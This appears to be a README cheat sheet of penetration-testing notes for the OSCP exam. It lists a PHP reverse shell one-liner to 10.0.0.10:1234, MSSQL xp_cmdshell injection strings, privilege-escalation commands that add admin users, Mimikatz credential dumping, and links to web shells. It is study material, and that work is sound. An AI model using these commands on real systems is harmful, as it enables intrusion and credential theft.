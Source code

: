 # JustTryHarder
Just Try Harder and pass the OSCP!



Active Directory & Domain Controllers
----------------
- http://web.archive.org/web/20141004091538/http://www.slaughterjames.com/blog/2012/10/23/hacking-a-domain-controller-part-1-enumeration.html

- http://web.archive.org/web/20160417135414/http://www.slaughterjames.com/blog/2012/10/30/hacking-a-domain-controller-part-2-easy-pwnage.html

DNS - Zone Transfers
----------------
host -t axfr test.local 10.10.10.10

host -l test.local 10.10.10.10

File Transfers
----------------
Wget Transfer
How to retrieve file(s) from host (inside a reverse shell)

	1. Place file you want transferred in /var/www/html/
	2. # service apache2 start
	3. # wget http://10.10.10/pspy64 <- for single file
  	4. # wget -r http://10.10.10.10/pspy64/ <- for folder

MSSQL
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --

Payloads
----------------
- https://www.offensive-security.com/metasploit-unleashed/payloads/
- non staged = netcat
- staged = multi/handler

PHP
----------------
- https://stackoverflow.com/questions/20072696/what-is-different-between-exec-shell-exec-system-and-passthru-functions?lq=1
- <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");

Priv Esc - Linux
----------------
- grep -Ri 'password' .
- find / -perm –4000 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

Priv Esc - Windows
----------------
 - c:\Inetpub>churrasco -d "net user /add <username> <password>"
 - c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 - c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

Post Exploitation
----------------
- Mimikatz.exe (run it)

- privilege::debug

- sekurlsa::logonpasswords

Port Scanning
----------------
reconnoitre -t 10.10.10.10 -o . --services --quick --hostnames

nmap -sT -sU -p- --min-rate 10000
nmap -sT -sU -p <open ports seperated by ,'s> -A
obviously drop -sU if no UDP ports are open
- TCP
nmap -p- -iL ips.txt > AllTCPPorts.txt 
 
- UDP (can take hours so maybe netstat is a better alternative)
nmap -p- -sU -iL ips.txt > udp.txt 
nmap -sU -sV -iL ips.txt > alludpports.txt 
 
- SNMP
nmap -p161 -sU -iL ips.txt > udp.txt  (cmd could be wrong, double check)
 
- SSH
nmap --script ssh2-enum-algos -iL ips.txt > SSH.txt 
 
- SSL
nmap -v -v  --script ssl-cert,ssl-enum-ciphers,ssl-heartbleed,ssl-poodle,sslv2 -iL ips.txt > SSLScan.txt 

Pivoting
----------------
sshuttle -r user@10.10.10.10 10.1.1.0/24

Shell Upgrading
----------------
- In reverse shell

1. python -c 'import pty; pty.spawn("/bin/bash")'
2. Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)

Show listening ports
----------------
- Linux netstat syntax
	1. netstat -tulpn | grep LISTEN

- FreeBSD/MacOS X netstat syntax
	1. netstat -anp tcp | grep LISTEN
	2. netstat -anp udp | grep LISTEN
	
- OpenBSD netstat syntax

	1. netstat -na -f inet | grep LISTEN
	2. netstat -nat | grep LISTEN

- Nmap scan syntax
	1. sudo nmap -sT -O localhost
	2. sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
	3. sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Impacket
----------------
- Impacket's PSEXEC
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)

[*] Trying protocol 445/SMB...

- Impacket's SMBServer
cd /usr/share/windows-binaries
python /usr/share/doc/python-impacket/examples/smbserver.py a .

SMTP Enumeration
----------------
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/SMTP/smtp_commands.txt


Web Shells
----------------
- https://github.com/Arrexel/phpbash
- https://github.com/flozz/p0wny-shell

WordPress
----------------
- https://forum.top-hat-sec.com/index.php?topic=5758.0

Windows Framework / Powershell
----------------
- https://github.com/samratashok/nishang
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- https://github.com/rasta-mouse/Sherlock

Windows Post Exploitation Commands
----------------
- net user
- net user USERNAME NEWPASS
- net user "USER NAME" NEWPASS
